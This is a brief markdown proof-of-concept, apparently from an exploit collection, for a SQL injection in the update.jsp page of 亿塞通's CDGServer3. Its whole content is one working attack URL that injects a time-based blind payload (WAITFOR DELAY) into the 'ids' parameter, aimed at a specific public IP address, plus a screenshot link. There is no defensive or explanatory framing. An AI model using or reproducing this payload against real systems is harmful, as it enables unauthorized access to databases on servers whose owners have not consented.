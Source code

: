 # 亿塞通 update.jsp sql注入

    ## poc

```
http://112.6.162.68:8090/CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:2%27--
```

![image](https://s1.ax1x.com/2023/08/31/pPwtinO.png)
